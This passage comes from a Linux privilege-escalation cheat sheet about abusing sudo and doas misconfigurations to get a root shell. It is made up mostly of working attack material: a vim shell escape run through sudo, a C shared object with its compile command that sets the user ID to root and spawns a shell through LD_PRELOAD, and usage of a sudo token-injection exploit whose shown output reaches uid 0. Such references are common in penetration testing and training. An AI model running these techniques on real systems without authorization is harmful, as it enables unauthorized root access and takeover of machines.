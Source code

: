 ```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```

In this example the user `demo` can run `vim` as `root`, it is now trivial to get a shell by adding an ssh key into the root directory or by calling `sh`.

```bash
sudo vim -c '!sh'
sudo -u root vim -c '!sh'
```

### LD_PRELOAD and NOPASSWD

If `LD_PRELOAD` is explicitly defined in the sudoers file

```powershell
Defaults        env_keep += LD_PRELOAD
```

Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

Execute any binary with the LD_PRELOAD to spawn a shell : `sudo LD_PRELOAD=<full_path_to_so_file> <program>`, e.g: `sudo LD_PRELOAD=/tmp/shell.so find`

### Doas

There are some alternatives to the `sudo` binary such as `doas` for OpenBSD, remember to check its configuration at `/etc/doas.conf`

```bash
permit nopass demo as root cmd vim
```

### sudo_inject

Using [https://github.com/nongiach/sudo_inject](https://github.com/nongiach/sudo_inject)

```powershell
$ sudo whatever
[sudo] password for user:    
# Press <ctrl>+c since you don't have the password. 
# This creates an invalid sudo tokens.
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```
